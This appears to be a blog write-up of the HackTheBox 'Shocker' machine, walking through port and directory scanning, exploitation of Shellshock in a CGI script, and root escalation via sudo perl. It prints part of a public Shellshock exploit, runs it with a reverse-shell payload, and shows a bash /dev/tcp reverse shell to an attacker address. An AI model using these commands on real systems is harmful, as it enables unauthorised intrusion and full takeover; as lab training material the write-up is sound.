 ```yaml
---
title: "HTB: Shocker Write-up"
date: 2021-05-03 00:00:00 -0000
categories:
  - HTB
tags:
  - HTB
  - linux
  - web
---
```


As promised, here is the first of the HackTheBox write-ups that I am going to be putting out weekly. For the first write-up I picked the first Linux box from TJNull's excellent [list of OSCP-like HackTheBox machines][htb-list] (that I hadn't already pwned).

## Phase 1: Enumeration
As with any boot2root, the first step is kicking off some external port scans to see whats up and kicking. I recently discovered [AutoRecon][autorecon] by Tib3ruis, and I have since made it a staple of my boot2root arsenal. It's great at automating all the low level stuff that you would be doing by hand, and it can usually find the low-hanging fruit pretty fast.

```bash
autorecon -o shocker --single-target 10.10.10.56  
```

From the `nmap` output we can see that there is a web-server on port 80, and SSH on port 2222.

```
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
```

SSH on 2222 is a little odd, but I'm going to chalk this up to just avoiding top-10 port scans. The web server seems like the juicy target here, but I'm going to just do a quick check to make sure that the SSH service isn't using any [bad keys][bad-keys]. 

```
cd ~/tools/ssh-badkeys
grep -R "AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREG" .
```

Nadha, worth a shot. Now that I know the SSH is secure, it's time to poke at the web-server. The first step to any web-server enumeration is always to perform directory enumeration, which `autorecon` has handily done for us. Time to check the GoBuster output.

```
/.htaccess.aspx       (Status: 403) [Size: 300]
/.htpasswd.aspx       (Status: 403) [Size: 300]
/.htaccess.jsp        (Status: 403) [Size: 299]
/.htpasswd.jsp        (Status: 403) [Size: 299]
/.htaccess.txt        (Status: 403) [Size: 299]
/.htpasswd            (Status: 403) [Size: 295]
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd.txt        (Status: 403) [Size: 299]
/.htaccess.html       (Status: 403) [Size: 300]
/.htpasswd.html       (Status: 403) [Size: 300]
/.htaccess.php        (Status: 403) [Size: 299]
/.htaccess.asp        (Status: 403) [Size: 299]
/.htpasswd.php        (Status: 403) [Size: 299]
/.htpasswd.asp        (Status: 403) [Size: 299]
/cgi-bin/             (Status: 403) [Size: 294]
/cgi-bin/.html        (Status: 403) [Size: 299]
/index.html           (Status: 200) [Size: 137]
/server-status        (Status: 403) [Size: 299]
```

Hmmm, not a lot there. I'm going to kick off another scan with a bigger wordlist just incase something was missed. This time I'm going to use `ffuf` because its speed is unrivaled and I am more familiar with its flags.

```
ffuf -u http://10.10.10.56/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -of csv -o ./raft-large.csv
```

While that was running, I went to check the other `autorecon` scan output. This is where I ended up getting stuck for some time because I didn't properly enumerate the "cgi-bin" directory. I went diving down other rabbit holes, and eventually had to look up a hint. I was close in my enumeration attempts, but I just used the `CGIs.txt` file as my wordlist from the web root (which didn't have the endpoint I needed).

**Wrong Command (That I Ran)**
```
ffuf -u http://10.10.10.56/FUZZ -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt -of csv -o ./raft-cgis-ext.csv -e .cgi,.php,.py,.sh
```

What I should have done was to scan the "cgi-bin" directory using a wordlist like `raft-large-directories.txt` with the extensions I specified.

**Right Command (That I Should Have Run)**
```
ffuf -u http://10.10.10.56/cgi-bin/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -of csv -o ./raft-cgi-bin-ext.csv -e .cgi,.php,.py,.sh
```

Nearly immediately we can see the new endpoint.

```
user.sh                 [Status: 200, Size: 118, Words: 19, Lines: 8]
```

This can stand as a valuable learning lesson for the future. Always, always, always properly enumerate directories - even if the root gives you a 403. Each directory should always be put through some directory enumeration tool, such as `ffuf`, so that better coverage can be achieved.

## Phase 2: Exploitation
From here, I kind of cheated a little. I used some intuition by looking at the name of the Box and the location of *the only endpoint we found* and assumed that the box was vulnerable to ShellShock. So, I looked up some shellshock exploits using `searchsploit` and found a few candidates. There were `metasploit` modules for this exploit, but I didn't want to use `metasploit` so I looked for stand alone exploits.

```
searchsploit shellshock
...
Apache mod_cgi - 'Shellshock' Remote Command Injection | linux/remote/34900.py
```

Lets go ahead and pull that one down and inspect it.

```
ssp -m linux/remote/34900.py
mv 34900.py shellshock.py
less shellshock.py
```

```python
#! /usr/bin/env python
from socket import *
from threading import Thread
import thread, time, httplib, urllib, sys 

stop = False
proxyhost = ""
proxyport = 0

def usage():
	print """

		Shellshock apache mod_cgi remote exploit

Usage:
./exploit.py var=<value>

Vars:
rhost: victim host
rport: victim port for TCP shell binding
lhost: attacker host for TCP shell reversing
lport: attacker port for TCP shell reversing
pages:  specific cgi vulnerable pages (separated by comma)
proxy: host:port proxy

Payloads:
"reverse" (unix unversal) TCP reverse shell (Requires: rhost, lhost, lport)
"bind" (uses non-bsd netcat) TCP bind shell (Requires: rhost, rport)

Example:

./exploit.py payload=reverse rhost=1.2.3.4 lhost=5.6.7.8 lport=1234
./exploit.py payload=bind rhost=1.2.3.4 rport=1234

Credits:

Federico Galatolo 2014
"""
...
```

Okay, seems straightforward enough. Only one thing to do and thats give her a go.

```
./shellshock.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.10 lport=8000 pages=/cgi-bin/user.sh                                                                                                                                                                                   1 ⨯
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> whoami
shelly
```

Rock on! We have a shell on the target. Next up is to make this shell into something a little more serviceable. I didn't like the way I was encapsulated in a python script, so I made a new reverse shell connection using `bash` and `nc`.

**Victim**
```
bash -i >& /dev/tcp/10.10.14.10/1234 0>&1
```

**Kali**
```
nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.56] 58284
bash: no job control in this shell
shelly@Shocker:/tmp$ 
```

Next step was to upgrade the shell.

```
shelly@Shocker:/tmp$ python3 -c "__import__('pty').spawn('/bin/bash')"
```

Once I have a TTY, I followed [this guide][tty-shell] for getting a proper TTY shell over `nc`.

## Phase 3: Privilege Escalation

My go-to linux privilege escalation script is the fantastic [linpeas.sh][linpeas] by carlospolop. I used `wget` to get it onto our victim machine, then let it rip. Something immediately caught my eye while the output was scrolling past.

```
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Our user can run `perl` with `sudo`! I know that `perl` can be used to escalate privileges to root, so I went to check [GTFObins][gtfobins] to see how I could do that. Sure enough, [GTFObins] provided me with the following command.

```
shelly@Shocker:/tmp$ sudo perl -e 'exec "/bin/bash"'
root@Shocker:/tmp# whoami
root
```

Thanks for reading my write-up of Shocker. I plan on doing plenty more of these as I inch closer to my OSCP exam attempt, so if you liked it there will be more soon.

[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[bad-keys]: https://github.com/rapid7/ssh-badkeys
[tty-shell]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell
[linpeas]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[gtfobins]: https://gtfobins.github.io/